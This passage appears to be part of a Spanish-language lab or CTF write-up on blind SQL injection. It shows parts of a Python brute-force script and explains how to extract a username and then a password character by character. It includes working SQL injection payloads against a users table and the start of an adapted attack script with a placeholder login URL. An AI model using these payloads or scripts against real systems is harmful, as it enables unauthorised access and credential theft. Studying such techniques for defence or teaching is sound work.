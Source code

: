 ```python
                        if r.text == "1":       #Parametro de la comparacion para saber si es True o False

                                username += character
                                p2.status(username)
                                break

if __name__ == '__main__':

        makeRequest()
```

Su funcion es determinar mediante un parametro en especifico el cual se tiene que cambiar dependiendo de las necesidades de cada uno, en este caso cuando el parametro de respuesta es un `1` significa que es correcto y cuando es `3` significa que es un `error`, por lo que el script se guia por ese parametro y entorno a eso va sacando el nombre letra por letra sabiendo que `1` es `True` y `3` es `False`, con eso se descubre el `username` del usuario, si se intenta descubrir mas alla del mismo se tendra que aumentar la inyeccion de codigo en el script conservando la funcion de ataque guiado por el parametro...

Si queremos sacar la `password` una vez sabiendo el nombre del usuario, modificaremos la inyeccion y añadiremos lo siguiente...

Para determinar por lo menos cual es el primer caracter de la `password` o la longitud de la misma se puede utilizar `BurpSuit` con el `Intruder` para ver aunque sea el primero y de ahi modificar el script a nuestra manera...

> EJEMPLO...

Suponiendo que el usuario sea `enemigosss` y la primera letra de la `password` sea la letra `s` para saber la longitud de la `password` haremos lo siguiente...

```mysql
' or (select substring(password, 1,1) from users where username='enemigosss' and length(password)>20)='s'-- -
```

Sabiendo lo larga que es pondremos ese signo `>=`...

```mysql
' or (select substring(password, 1,1) from users where username='enemigosss' and length(password)>20)>='s'-- -
```

Y una vez sabiendo la longitud, cambiaremos el script un poco para adaptarlo a nuestras nuevas necesidades...

```mysql
' or (select substring(password, %d,1) from users where username='enemigosss')='%s'-- -
```

El script adaptado...

```python
#!/usr/bin/python3

from pwn import *
import requests, pdb, string, signal, sys, time

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url = "http://<IP>/<LOGIN>"
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits

```